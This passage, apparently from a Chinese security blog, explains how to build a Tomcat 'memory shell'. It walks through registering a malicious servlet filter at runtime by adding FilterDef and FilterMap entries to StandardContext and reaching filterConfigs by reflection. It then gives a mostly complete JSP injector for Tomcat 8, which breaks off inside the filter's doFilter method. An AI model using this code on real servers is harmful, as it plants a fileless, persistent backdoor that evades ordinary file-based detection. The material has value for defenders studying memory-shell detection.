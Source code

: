 实际上StandardContext也有一些方法可以帮助我们添加属性。首先我们来看filtermaps，StandardContext直接提供了对应的添加方法(Before是将filter放在首位，正是我们需要的)，这里再往filterMaps添加之前会有一个校验filtermap是否合法的操作，跟进`validateFilterMap()`:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217112920.png)
可以看到这里有一个坑点，它会根据filterName去寻找对应的filterDef，如果没找到的话会直接抛出异常，也就是说我们还需要往filterDefs里添加filterDef。
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217112417.png)

那么我们接下来再看filterDefs，StandardContext直接提供了对应的添加方法:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217112602.png)

最后我们再来看filterConfigs，根据命名规则搜索`addFilterConfig`，发现并没有这个方法，所以我们考虑要通过反射的方法手动获取属性并添加:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217112715.png)
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217112750.png)

最后总结下Filter型内存马(即动态创建filter)的步骤:
1. 获取StandardContext
2. 继承并编写一个恶意filter
3. 实例化一个FilterDef类，包装filter并存放到StandardContext.filterDefs中
4. 实例化一个FilterMap类，将我们的 Filter 和 urlpattern 相对应，存放到StandardContext.filterMaps中(一般会放在首位)
5. 通过反射获取filterConfigs，实例化一个FilterConfig(ApplicationFilterConfig)类，传入StandardContext与filterDefs，存放到filterConfig中

以下是代码的具体实现:
```
<!-- tomcat 8 -->
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    String name = "Longlone";
    // 获取StandardContext
    ServletContext servletContext = request.getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    // 获取filterConfigs
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null) {
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
```